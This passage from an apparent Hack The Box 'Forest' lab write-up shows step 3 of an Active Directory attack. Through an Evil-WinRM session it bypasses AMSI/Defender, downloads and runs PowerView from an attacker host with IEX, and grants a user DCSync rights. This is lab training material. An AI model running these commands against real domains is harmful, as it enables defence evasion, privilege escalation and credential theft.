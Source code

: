 3. Grant this user the `DCSync` privileges using [`PowerView.ps1`](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1):

    > These information can be found via `Help > Abuse info` by right-clicking on `WriteDacl` in **BloodHound**

    ![Desktop View](/assets/img/htb/machines/windows/easy/forest/help.png)

    ![Desktop View](/assets/img/htb/machines/windows/easy/forest/abuse_info.png)

    ```powershell
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> menu
    ...
    [+] Bypass-4MSI
    ...
    # we can disable Defender before importing the script
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Bypass-4MSI
    [+] Patched! :D
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.12/PowerView.ps1')
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $SecPassword = ConvertTo-SecureString 'password1234' -AsPlainText -Force
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $Cred = New-Object System.Management.Automation.PSCredential('HTB\amirr0r', $SecPassword)
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-ObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity amirr0r -Rights DCSync
    ```
